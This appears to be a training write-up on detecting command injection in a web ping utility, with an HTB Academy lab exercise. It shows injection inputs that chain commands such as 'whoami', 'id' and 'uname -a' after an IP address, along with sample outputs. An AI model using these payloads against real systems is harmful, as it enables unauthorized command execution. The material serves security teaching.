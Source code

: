 ## Practical Example

### Host Checker Exploitation

**Target:** IP address input field in ping utility

**Detection Process:**

**1. Normal Input:**
```bash
Input: 127.0.0.1
Output: PING 127.0.0.1 ... (normal ping response)
```

**2. Injection Test:**
```bash
Input: 127.0.0.1; whoami
Output: PING 127.0.0.1 ... (ping response)
        www-data (injection successful!)
```

**3. Verification:**
```bash
Input: 127.0.0.1 && id
Output: PING 127.0.0.1 ... (ping response)
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**4. System Enumeration:**
```bash
Input: 127.0.0.1; uname -a
Output: PING 127.0.0.1 ... (ping response)
        Linux target 5.4.0-74-generic #83-Ubuntu SMP
```

This methodical approach ensures reliable detection of command injection vulnerabilities while maintaining operational security.

---

## Lab Exercise

### HTB Academy Challenge

**Target:** Host Checker utility at provided IP:PORT

**Task:** Try adding injection operators after the IP in the input field

**Detection Question:** What did the error message say when using injection operators?

**Testing Approach:**
1. Try each injection operator systematically
2. Note any error messages or changed responses  
3. Document which operators trigger different behavior
4. Identify successful injection indicators
